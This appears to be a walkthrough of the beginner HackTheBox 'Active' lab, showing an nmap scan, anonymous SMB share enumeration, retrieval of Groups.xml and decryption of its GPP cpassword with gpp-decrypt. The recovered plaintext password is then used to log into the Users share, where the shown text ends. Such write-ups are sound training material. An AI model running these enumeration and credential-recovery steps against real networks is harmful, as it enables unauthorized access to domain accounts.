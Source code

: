 #easy

[**Active**](https://app.hackthebox.com/machines/Active) is a beginner-friendly HackTheBox Lab.

Lets dig in and hack this thing.

---
## Discovery 

As per usual, we begin by conducting a network scan of the host machine.

	sudo nmap -sC -sV 10.10.10.100

Below is a summary of the ports [[nmap]] found to be open. 

	PORT      STATE SERVICE       VERSION
	53/tcp    open  domain        Microsoft DNS 6.1.7601 (1DB15D39) (Windows Server 2008 R2 SP1)
	88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2023-09-20 00:28:52Z)
	135/tcp   open  msrpc         Microsoft Windows RPC
	139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
	389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: active.htb, Site: Default-First-Site-Name)
	445/tcp   open  microsoft-ds?
	464/tcp   open  kpasswd5?
	593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
	636/tcp   open  tcpwrapped
	3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: active.htb, Site: Default-First-Site-Name)
	3269/tcp  open  tcpwrapped
	49152/tcp open  msrpc         Microsoft Windows RPC
	49153/tcp open  msrpc         Microsoft Windows RPC
	49154/tcp open  msrpc         Microsoft Windows RPC
	49155/tcp open  msrpc         Microsoft Windows RPC
	49157/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
	49158/tcp open  msrpc         Microsoft Windows RPC
	49165/tcp open  msrpc         Microsoft Windows RPC
	Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows_server_2008:r2:sp1, cpe:/o:microsoft:windows

## Analysis

It appears that the target is running **Windows Server 2008**. But how are we supposed to interface with the server? 

Firstly, SSH is configured to use port 22, which appears to be closed.

What about [[Server Message Block (SMB)|SMB?]]

Well, a quick Google search tells us that [[Server Message Block (SMB)|SMB]] is typically configured to run on ports 139 and 445; both of which are open on the target machine. Lets see if the Server allows for an Anonymous login. But first, lets enumerate through all the shares on the machine using [[smbclient|smbclient:]]

	smbclient -L  \\\\10.10.10.100

The command results in the following output:

    Sharename       Type      Comment
    ---------       ----      -------
	ADMIN$          Disk      Remote Admin
    C$              Disk      Default share
    IPC$            IPC       Remote IPC
    NETLOGON        Disk      Logon server share 
    Replication     Disk      
    SYSVOL          Disk      Logon server share 
    Users           Disk      

Now lets try to login to each share.

	smbclient -L \\\\10.10.10.100\\ADMIN$

Of course, this doesn't work. That would've been too easy:

	tree connect failed: NT_STATUS_ACCESS_DENIED

After attempting to login with each sharename, we successfully login to the Replication share:

	smbclient \\\\10.10.10.100\\Replication
	Anonymous login successful
	Try "help" to get a list of possible commands.
	smb: \> 

Typing 'ls', we list the contents of the share and stumble across this directory

	smb: \> ls
		.                                   D        0  Sat Jul 21 04:37:44 2018
		..                                  D        0  Sat Jul 21 04:37:44 2018
		active.htb                          D        0  Sat Jul 21 04:37:44 2018

You'll notice we can't change directories and browse the file-system like you would in a traditional shell. Instead, we'll download the 'active.htb' directory and all its contents from the server to our local machine. 

Firstly, we'll enable recurse, allowing for recursive downloading of all files from the directory. Next we'll disable prompts so we will not be asked to download every single file and folder present in the active.htb directory. Finally, we will initiate the download of the directory with mget.

	smb: \> recurse ON
	smb: \> PROMPT OFF
	smb: \> mget *

With the newly acquired 'active.htb' directory on our local machine, we browse the folders and files present, until a particular file catches our eye—*Groups.xml*. Lets check it out:

	└─$ cat Groups.xml 
	<Groups clsid="{3125E937-EB16-4b4c-9934-544FC6D24D26}">
	<User clsid="{DF5F1855-51E5-4d24-8B1A-D9BDE98BA1D1}" name="active.htb\SVC_TGS" image="2" changed="2018-07-18 20:46:06" uid="{EF57DA28-5F69-4530-A59E-AAB58578219D}">
	<Properties action="U" newName="" fullName="" description="" cpassword="edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ" changeLogon="0" noChange="1" neverExpires="1" acctDisabled="0" userName="active.htb\SVC_TGS"/>
	</User>
	</Groups>

Hmm, very interesting indeed! It seems we have the name of a User on the 'Users' Share, and a password!

The Users username seems to be '**SVC_TGS**'.

	name="active.htb\SVC_TGS"

And below is the password belonging to '**SVC_TGS**'. The password appears to be hashed or encrypted using some sort of algorithm.

	cpassword="edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUj
	TLfCuNH8pG5aSVYdYw/NglVmQ"

A quick Google Search of 'Groups.xml' mentions something called Group Policy Preferences or GPP. Further research indicates a vulnerability in GPP, allowing us to easily crack the hashed password using a tool called '**gpp-decrypt**'.

## Privilege Escalation

In an attempt to deobfuscate the password, we pass the password hash as an argument to **gpp-decrypt**, resulting in the following output.

		└─$ gpp-decrypt 
	edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8p
	G5aSVYdYw/NglVmQ

Well, what do you know? The password is: 

	GPPstillStandingStrong2k18

Now, lets perform a login on the Users share, using our newly acquired user-credentials. *(Hint: IT WORKS!)*

	smbclient \\\\10.10.10.100\\Users -U 'SVC_TGS'
	Password for [WORKGROUP\SVC_TGS]:
	Try "help" to get a list of possible commands.
	smb: \> 


